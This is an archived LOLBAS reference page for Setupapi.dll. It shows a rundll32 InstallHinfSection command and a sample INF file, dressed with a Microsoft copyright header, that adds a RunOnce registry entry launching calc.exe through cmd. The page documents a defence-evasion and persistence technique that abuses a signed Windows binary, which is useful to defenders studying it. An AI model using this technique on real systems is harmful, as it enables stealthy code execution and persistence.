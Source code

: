 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Setupapi.dll

* Functions: Execute

```
rundll32 setupapi,InstallHinfSection DefaultInstall 132 c:\temp\calc.inf
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994742106852941825

Full path:
```
c:\windows\system32\Setupapi.dll
c:\windows\sysWOW64\Setupapi.dll
```


Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```
